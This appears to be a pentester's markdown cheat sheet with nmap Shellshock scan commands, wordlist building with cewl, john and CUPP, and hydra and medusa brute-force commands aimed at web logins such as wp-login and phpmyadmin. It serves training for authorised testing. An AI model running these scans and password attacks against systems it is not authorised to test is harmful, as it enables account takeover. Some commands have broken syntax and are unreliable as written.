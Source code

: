 ```
```

### SHELLSHOCK

https://github.com/mubix/shellshocker-pocs
ls -lah /usr/share/nmap/scripts/*shellshock*
nmap *target* -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi

### Shocker

```
nmap -sV -p- --script http-shellshock *target*

nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls *target*

ls -lh /usr/share/nmap/scripts/*shellshock*
```

### Password brute force 

If you come across a hard to enumerate host This is your go to technique find all logins and list them here and start bruteforceing

REF: to the bruteforce tab in the web pentesters workbook. 

### Cewl
create a password list with cewl

cewl www.megacorpone.com -m 6 -w  /root/mega-cewl.txt 2>/dev/null
once the password list is ready then you can create more passwords, pass it on to john the ripper for some password mangling

john --wordlist=mega-cewl.txt --rules --stdout > mega-mangled

brute force http

medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 -m DIR:/admin -T 30

### COMMON USER PASSWORD PROFILER (CUPP)

1.	Python cup.py -i
2.	Insert victim name and information
3.	Get wordlist in cup directory

### hydra

```
hydra -l admin -P /root/Desktop/wordlists/500-worst-passwords.txt 10.194.0.36 http-get-form "/geeklog/users.php:login=^USER^&PASS^:Deny"

hydra -l elliot -P ~/fsocity.dic *target* http-post-form “/wp-login.php:log=elliot&pwd=^PASS^:ERROR”

hydra -l admin -P passwords.lst -e ns -vV 192.168.2.10 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1:denied"
```
### SSH Bruteforce
